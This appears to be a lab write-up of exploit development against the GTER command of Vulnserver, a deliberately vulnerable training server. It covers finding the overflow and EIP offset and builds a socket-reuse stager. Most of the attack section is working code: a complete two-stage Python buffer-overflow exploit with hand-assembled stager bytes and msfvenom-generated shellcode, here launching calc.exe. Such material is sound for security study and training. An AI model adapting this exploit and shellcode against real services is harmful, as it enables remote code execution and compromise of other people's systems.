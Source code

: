 ## <ins>GTER</ins>

As with TRUN and GMON, the prefix gets updated accordingly.

This time, there are two calls to `_strncpy`, one of them residing in `_Function1`:

![bc8935e6ca1ae81646852f309a997048.png](:../../../99\)%20Images/daa53b9ab822430992cbf166ec423086.png)

```Python
[...]

prefix = b'GTER '
buffer = b'A' * 4096

payload = prefix + buffer 

[...]
```

Following the execution flow in WinDbg reveals that the second `_strncpy` is vulnerable to a buffer overflow and EIP gets overwritten as soon as the function returns.

![372aa286a0f8a3156e6b4545b0cb2d4d.png](:../../../99\)%20Images/089bfc7c26c4473bacca004624b30a92.png)

After confirming that GTER is vulnerable, it is time to determine the exact offset to overwrite the instruction pointer:

```Python
[...]

prefix = b'GTER '
# msf-pattern_create -l 4096
buffer = 
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7[...]f4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4F'

payload = prefix + buffer 

[...]
```

EIP was overwritten with `66413066` which is equivalent to the offset 151 in the unique pattern.

Adjusting the script and checking for the available buffer space shows, that it is very limited:

```Python
[...]

prefix = b'GTER '
buffer = b'A' * 151
eip = b'BBBB'
junk = b'C' * 2000

payload = prefix + buffer + eip + junk

[...]
```

![249d4c7337cdddc2ff23af94b9c23219.png](:../../../99\)%20Images/58c30c6fc3b840e7b06a067a72210ce3.png)

This means, it is required to either use jumpcode or an egghunter in order to execute the actual shellcode.

There is very little space available in general, because of that a technique called *socket reuse* will be used.
This technique is explained way more detailed here:

- [https://connormcgarr.github.io/WS32_recv()-Reuse/](https://connormcgarr.github.io/WS32_recv%28%29-Reuse/ "https://connormcgarr.github.io/WS32_recv()-Reuse/")
- https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/
- https://zflemingg1.gitbook.io/undergrad-tutorials/walkthroughs-osce/vulnserver-gter-command

### Socket Reconstructing Technique

The application was started via WinDbg so that it gets interrupted immediately, then the following breakpoints were set:

```Text
bp ws2_32!socket
bp ws2_32!bind
bp ws2_32!listen
bp ws2_32!accept
bp ws2_32!recv
```

Afterwards, the execution was continued and the PoC script executed to obtain the address of calls to the functions listed above:

| Address | Function |
| --- | --- |
| `0040156C` | ws2_32!socket |
| `004015E0` | ws2_32!bind |
| `00401653` | ws2_32!listen |
| `004016DA` | ws2_32!accept |
| `00401953` | ws2_32!recv |

```Python
#!/usr/bin/python3

import socket, sys
from struct import pack
from time import sleep


ip = sys.argv[1]
port = 9999		

length = 151

prefix = b'GTER '
buffer = None
eip = pack('<L', 0x625011af)

jumpcode = b'\xe9\x60\xff\xff\xff'      # Backwards jump of 0x60

#WS32_recv() reuse

# ws2_32!socket (2, 1, 6)

re = b'\x83\xEC\x50'      # sub esp, 0x50
re += b'\x83\xEC\x50'     # sub esp, 0x50

re += b'\x31\xC0'         # xor eax, eax
re += b'\xB0\x06'         # mov al, 0x6
re += b'\x50'           # push eax
re += b'\xB0\x01'         # mov al, 0x1
re += b'\x50'           # push eax
re += b'\x40'           # inc eax
re += b'\x50'           # push eax
re += b'\xBB\x11\x7C\x25\x40'   # mov ebx, 0x40256c11
re += b'\xC1\xEB\x08'   # shr ebx, byte 0x8
re += b'\xff\xd3'       # call ebx
re += b'\x89\xC7'       # mov edi, eax 

'''
EDI holds the file descriptor
ws2_32!socket was called
'''

# WS2_32!bind (socket, name, namelen)

re += b'\x31\xC0'       # xor eax, eax 
re += b'\x50'           # push eax
re += b'\x50'           # push eax

re += b'\xBA\x02\xFF\x1A\x0A'   # mov edx, 0xa1aff02
re += b'\x30\xf6'   # xor dx, dx

re += b'\x54'           # push esp
re += b'\x59'           # pop ecx 

re += b'\x6A\x16'       # push 0x16 
re += b'\x89\x11'       # mov DWORD PTR [ecx], edx
re += b'\x51'           # push ecx 
re += b'\xb3\x64'       # mov bl, 0x64

re += b'\x57'           # push edi (file descriptor)
re += b'\xff\xd3'       # call ebx

# WS2_32!listen 

re += b'\xb3\x54'       
re += b'\x6a\x7f'       # BACKLOG (Pushed to stack)
re += b'\x57'           # push edi (socket descriptor)
re += b'\xff\xd3'       # call ebx (invoke the listener function)

# WS2_32!accept 

re += b'\x50'           # push eax
re += b'\x50'           # push eax
re += b'\x57'           # push edi (file descriptor)
re += b'\xb3\x4c'       # mov bl, 0x4c
re += b'\xff\xd3'       # call ebx

# ws2_32!recv 

re += b'\x89\xC7'       # mov edi, eax (saves the return value from WS2_32!accept)
re += b'\x31\xC0'       # xor eax, eax 
re += b'\x50'           # push eax  (flags param)
re += b'\xb4\x02'       # mov ah, 0x2
re += b'\x50'           # push eax  (buffer len (512 bytes))

re += b'\x54'           # push esp
re += b'\x59'           # pop ecx 
re += b'\x66\x83\xC2\x65'   # add dx, byte +0x65
re += b'\x66\x83\xC2\x60'   # add dx, byte +0x65
re += b'\x51'           # push ecx 

re += b'\x57'           # push edi (socket handler)
re += b'\xB3\x2C'       # mov bl, 0x2c
re += b'\xff\xd3'       # call ebx

  


buffer = b"\x90" * 4 + re + b'\x90' * (length - len(re)- 4)

payload = prefix + buffer + eip + jumpcode

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, port))
        print('[*] Sending stage 1')
        s.send(payload)
except Exception as e:
    print(e)
    sys.exit(0)

#input('waiting to connect...')
sleep(3)

nopsled = b'\x90' * 200

# msfvenom -p windows/exec cmd=calc.exe -b "\x00" -f py -v shellcode
shellcode =  b""
shellcode += b"\xda\xda\xd9\x74\x24\xf4\xbb\x43\x24\xcc\xc7"
shellcode += b"\x5d\x2b\xc9\xb1\x31\x31\x5d\x18\x83\xc5\x04"
shellcode += b"\x03\x5d\x57\xc6\x39\x3b\xbf\x84\xc2\xc4\x3f"
shellcode += b"\xe9\x4b\x21\x0e\x29\x2f\x21\x20\x99\x3b\x67"
shellcode += b"\xcc\x52\x69\x9c\x47\x16\xa6\x93\xe0\x9d\x90"
shellcode += b"\x9a\xf1\x8e\xe1\xbd\x71\xcd\x35\x1e\x48\x1e"
shellcode += b"\x48\x5f\x8d\x43\xa1\x0d\x46\x0f\x14\xa2\xe3"
shellcode += b"\x45\xa5\x49\xbf\x48\xad\xae\x77\x6a\x9c\x60"
shellcode += b"\x0c\x35\x3e\x82\xc1\x4d\x77\x9c\x06\x6b\xc1"
shellcode += b"\x17\xfc\x07\xd0\xf1\xcd\xe8\x7f\x3c\xe2\x1a"
shellcode += b"\x81\x78\xc4\xc4\xf4\x70\x37\x78\x0f\x47\x4a"
shellcode += b"\xa6\x9a\x5c\xec\x2d\x3c\xb9\x0d\xe1\xdb\x4a"
shellcode += b"\x01\x4e\xaf\x15\x05\x51\x7c\x2e\x31\xda\x83"
shellcode += b"\xe1\xb0\x98\xa7\x25\x99\x7b\xc9\x7c\x47\x2d"
shellcode += b"\xf6\x9f\x28\x92\x52\xeb\xc4\xc7\xee\xb6\x82"
shellcode += b"\x16\x7c\xcd\xe0\x19\x7e\xce\x54\x72\x4f\x45"
shellcode += b"\x3b\x05\x50\x8c\x78\xe9\xb2\x05\x74\x82\x6a"
shellcode += b"\xcc\x35\xcf\x8c\x3a\x79\xf6\x0e\xcf\x01\x0d"
shellcode += b"\x0e\xba\x04\x49\x88\x56\x74\xc2\x7d\x59\x2b"
shellcode += b"\xe3\x57\x3a\xaa\x77\x3b\x93\x49\xf0\xde\xeb"

try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(5)
        s.connect((ip, 6666))
        print('[*] Sending stage 2')
        #input('waiting to send...')
        sleep(1)
        s.send(nopsled + shellcode)
except Exception as e:
    print(e)
    sys.exit(0)
```
